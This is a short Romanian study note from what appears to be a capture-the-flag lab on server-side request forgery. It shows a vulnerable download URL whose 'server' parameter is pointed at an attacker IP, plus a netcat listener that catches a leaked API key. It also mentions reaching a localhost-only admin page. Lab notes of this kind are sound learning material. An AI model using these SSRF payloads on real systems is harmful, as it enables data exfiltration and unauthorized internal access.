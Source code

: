SSRF - Server-Side Request Forgery 
Apare atunci cand aplicatia noastra trebuie sa foloseasca alte servici.
![[Pasted image 20240410172827.png]]
Exemplu:
```bash
http://10.10.223.223:8087/download?server=secure-file-storage.com:8087&id=75482342
```
In exemplu de mai sus putem seta in loc de `secure-file-storage.com:8087` inlocuim cu `tun0` sau cu [[IP]] adresa dorita si portul pe care este un [[nc]] pentru a prinde traficul dorit.
```bash
http://10.10.223.223:8087/download?server=<IP_tun0>:<port>&id=75482342
```
Si pe machina ascultam portul:
```bash
nc -lvp 8087
```
Vom prinde datele in cazul nostru un [[API]] care este un `flag`
![[Pasted image 20240410181558.png]]
Daca dorim sa acesam resursele care sunt blocate pentru noi ca utilizator dar are aces `localhostul`.
![[Pasted image 20240410174939.png]]
Rezultatul ce era ascuns pe pagina de `admin` care are aces doar `localhost`. ;)
![[Pasted image 20240410175207.png]]


